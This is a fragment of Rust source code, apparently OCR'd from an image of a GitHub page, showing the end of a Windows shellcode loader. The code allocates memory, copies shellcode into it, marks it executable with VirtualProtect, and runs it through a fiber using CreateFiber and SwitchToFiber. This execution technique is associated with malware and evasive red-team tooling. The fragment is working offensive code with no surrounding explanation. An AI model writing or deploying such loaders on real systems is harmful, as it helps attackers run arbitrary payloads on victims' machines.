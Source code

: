 ```rust
    if size > 50 * 1024 * 1024 {  // 50MB limit
        return Err("Shellcode too large".into());
    }
    
    // Allocate memory for shellcode
    let buffer = win::VirtualAlloc(
        std::ptr::null_mut(),
        size,
        win::MEM_COMMIT | win::MEM_RESERVE,
        win::PAGE_READWRITE,
    );
    
    if buffer.is_null() {
        return Err("Failed to allocate memory for code".into());
    }
    
    // Copy shellcode to allocated memory
    std::ptr::copy_nonoverlapping(code.as_ptr(), buffer as *mut u8, size);
    
    // Change memory protection to executable
    let mut old_protect = 0u32;
    if win::VirtualProtect(buffer, size, win::PAGE_EXECUTE_READ, &mut old_protect) == 0 {
        return Err("Memory protection change to executable failed".into());
    }
    
    // Execute using fiber
    let mut fiber = std::mem::zeroed::<Fiber>();
    
    // Convert current thread to fiber
    fiber.primary_fiber_address = ConvertThreadToFiber(null());
    if fiber.primary_fiber_address.is_null() {
        return Err(format!("ConvertThreadToFiber Failed With Error: {}", GetLastError()).into());
    }
    
    // Create fiber for shellcode
    fiber.shellcode_fiber_address = CreateFiber(
        0,
        std::mem::transmute::<*mut c_void, LPFIBER_START_ROUTINE>(buffer),
        null()
    );
    
    if fiber.shellcode_fiber_address.is_null() {
        ConvertFiberToThread();
        return Err(format!("CreateFiber Failed With Error: {}", GetLastError()).into());
    }
    
    // Execute the fiber
    let result = std::panic::catch_unwind(|| {
        SwitchToFiber(fiber.shellcode_fiber_address);
    });
    
    match result {
        Ok(_) => Ok(()),
        Err(_) => Err("Fiber execution failed".into())
    }
}
```
